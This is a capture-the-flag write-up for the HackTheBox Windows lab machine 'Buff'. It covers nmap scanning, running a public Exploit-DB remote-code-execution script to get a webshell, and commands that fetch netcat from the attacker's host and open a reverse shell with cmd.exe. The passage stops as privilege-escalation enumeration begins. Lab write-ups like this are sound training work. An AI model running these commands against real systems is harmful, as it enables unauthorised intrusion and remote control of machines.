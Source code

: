 # Buff - Windows - 10.10.10.198

## Enumeration:

Nmap time:

```
nmap -sC -sV -Pn 10.10.10.198
```

Results:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-03 16:23 EST
Nmap scan report for 10.10.10.198
Host is up (0.059s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.50 seconds
```

We find an open port on port 8080, http, so we open the ip in a web browser.

After poking around the site, we find the following: *Made using Gym Management Software 1.0*.

Looking around for exploits, we find a remote code execution exploit at https://www.exploit-db.com/exploits/48506. Using this command with the site address allows for a webshell.

```
python 48506.py http://10.10.10.198:8080/
```

## Getting In:

From this webshell, we want a reverse shell.

First, I host a netcat binary from my local system:

```
python -m SimpleHTTPServer 80
```

Then I curled the netcat binary from it from the webshell:

```
curl.exe -o nc.exe ip
```

Then the listener system is setup:

```
sudo nc -lnvp 1338
```

We get the reverse shell now by netcatting from the windows webshell:

```
nc -nv ip 1338 -e cmd.exe
```

This gives us the reverse shell.

## Enumeration Part 2:

We're going to enumerate now with WinPEAS
